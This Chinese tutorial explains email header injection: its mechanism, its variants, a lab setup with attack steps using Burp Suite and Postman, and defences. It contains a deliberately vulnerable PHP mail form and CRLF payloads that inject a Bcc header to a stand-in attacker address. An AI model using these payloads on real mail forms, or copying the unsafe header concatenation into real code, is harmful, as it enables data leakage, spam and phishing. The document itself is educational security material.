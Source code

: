# 邮件头注入攻击的基本概念

## 1. 基本原理

邮件头注入攻击（Email Header Injection）是一种利用Web应用程序中的漏洞，通过注入恶意邮件头信息来操纵邮件发送行为的攻击方式。这种攻击通常发生在Web应用程序允许用户输入邮件头信息（如收件人、抄送、主题等）时，攻击者通过注入特殊字符（如换行符）来插入额外的邮件头或修改现有邮件头。

### 1.1 底层实现机制

邮件头注入攻击的底层实现机制主要依赖于邮件协议的解析方式。邮件头通常由多个字段组成，每个字段以“字段名: 字段值”的形式出现，字段之间通过换行符（`\r\n`）分隔。攻击者通过在用户输入中插入换行符，可以插入新的邮件头字段或修改现有字段。

例如，假设一个Web应用程序允许用户输入收件人地址，并将其直接插入到邮件头中：

```php
$to = $_POST['to'];
$headers = "To: $to\r\n";
```

如果用户输入`user@example.com\r\nBcc: attacker@example.com`，则生成的邮件头将变为：

```
To: user@example.com
Bcc: attacker@example.com
```

这样，攻击者成功地将自己添加为密送（Bcc）收件人。

## 2. 类型和变种

邮件头注入攻击有多种变种，常见的包括：

### 2.1 收件人注入

攻击者通过注入收件人字段，将邮件发送到多个目标地址。例如：

```
user@example.com\r\nTo: attacker@example.com
```

### 2.2 抄送/密送注入

攻击者通过注入抄送（Cc）或密送（Bcc）字段，将邮件副本发送到自己的邮箱。例如：

```
user@example.com\r\nBcc: attacker@example.com
```

### 2.3 主题注入

攻击者通过注入主题字段，修改邮件的主题。例如：

```
user@example.com\r\nSubject: Fake Subject
```

### 2.4 邮件内容注入

攻击者通过注入邮件内容字段，修改邮件正文。例如：

```
user@example.com\r\n\r\nThis is a fake message.
```

## 3. 危害

邮件头注入攻击可能导致以下危害：

- **信息泄露**：攻击者可以通过密送（Bcc）字段获取邮件的副本，从而获取敏感信息。
- **垃圾邮件**：攻击者可以利用注入的收件人字段，将大量垃圾邮件发送到多个目标地址。
- **钓鱼攻击**：攻击者可以通过修改邮件主题或内容，诱骗用户点击恶意链接或提供敏感信息。
- **声誉损害**：攻击者可以利用受害者的邮件服务器发送垃圾邮件，导致受害者的邮件服务器被列入黑名单。

## 4. 攻击步骤和实验环境搭建指南

### 4.1 实验环境搭建

为了模拟邮件头注入攻击，我们可以使用以下工具和环境：

- **Web服务器**：Apache或Nginx
- **编程语言**：PHP
- **邮件服务器**：Postfix或Sendmail
- **测试工具**：Burp Suite或Postman

### 4.2 攻击步骤

1. **搭建Web应用程序**：创建一个简单的PHP脚本，允许用户输入收件人地址并发送邮件。

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $to = $_POST['to'];
    $subject = $_POST['subject'];
    $message = $_POST['message'];
    $headers = "To: $to\r\n";
    $headers .= "Subject: $subject\r\n";
    mail($to, $subject, $message, $headers);
    echo "邮件已发送！";
}
?>
<form method="post">
    收件人: <input type="text" name="to"><br>
    主题: <input type="text" name="subject"><br>
    内容: <textarea name="message"></textarea><br>
    <input type="submit" value="发送">
</form>
```

2. **测试正常邮件发送**：输入正常的收件人地址、主题和内容，确保邮件能够正常发送。

3. **注入恶意邮件头**：在收件人字段中注入恶意邮件头，例如：

```
user@example.com\r\nBcc: attacker@example.com
```

4. **观察结果**：检查邮件是否被发送到攻击者的邮箱。

## 5. 实际命令、代码或工具使用说明

### 5.1 使用Burp Suite进行测试

1. **启动Burp Suite**：启动Burp Suite并配置浏览器代理。

2. **拦截请求**：在浏览器中提交邮件发送表单，Burp Suite将拦截请求。

3. **修改请求**：在Burp Suite中修改收件人字段，注入恶意邮件头。

4. **发送请求**：将修改后的请求发送到服务器，观察邮件是否被发送到攻击者的邮箱。

### 5.2 使用Postman进行测试

1. **启动Postman**：启动Postman并创建一个新的POST请求。

2. **设置请求参数**：设置请求URL、请求方法为POST，并添加收件人、主题和内容参数。

3. **注入恶意邮件头**：在收件人字段中注入恶意邮件头，例如：

```
user@example.com\r\nBcc: attacker@example.com
```

4. **发送请求**：点击“Send”按钮，观察邮件是否被发送到攻击者的邮箱。

## 6. 防御措施

为了防止邮件头注入攻击，可以采取以下措施：

- **输入验证**：对用户输入进行严格的验证，过滤掉特殊字符（如换行符）。
- **输出编码**：在将用户输入插入到邮件头之前，对其进行编码。
- **使用安全的邮件库**：使用安全的邮件库或框架，避免直接拼接邮件头。

例如，在PHP中可以使用`filter_var`函数进行输入验证：

```php
$to = filter_var($_POST['to'], FILTER_VALIDATE_EMAIL);
if (!$to) {
    die("无效的收件人地址");
}
```

通过采取这些措施，可以有效地防止邮件头注入攻击，保护Web应用程序和用户的安全。

---

*文档生成时间: 2025-03-11 13:50:42*
